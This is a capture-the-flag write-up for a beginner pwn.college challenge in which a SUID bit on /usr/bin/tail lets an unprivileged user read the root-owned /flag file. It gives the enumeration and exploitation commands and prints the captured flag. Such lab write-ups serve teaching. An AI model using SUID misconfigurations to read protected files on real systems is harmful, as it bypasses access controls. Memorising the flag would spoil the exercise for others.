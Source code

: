 # Challenge Name: tail
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/tail`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/tail
```

output:
```
-rwsr-xr-x 1 root root 72088 Sep  5  2019 /usr/bin/tail
```

-The `s` in `-rws` indicates it's a SUID binary.
-`tail` runs with **root privileges**.

## 🚀 Exploitation

The `tail` command is used to display the last few lines of a file. It's perfect for watching logs in real-time or checking recent output without scrolling through the whole file.

```bash
tail /flag
```
Output:
```
pwn.college{kD9jjyBA4uV_EsSylIrjbyLydSY.dZDNxwSM0IzMyEzW}
```


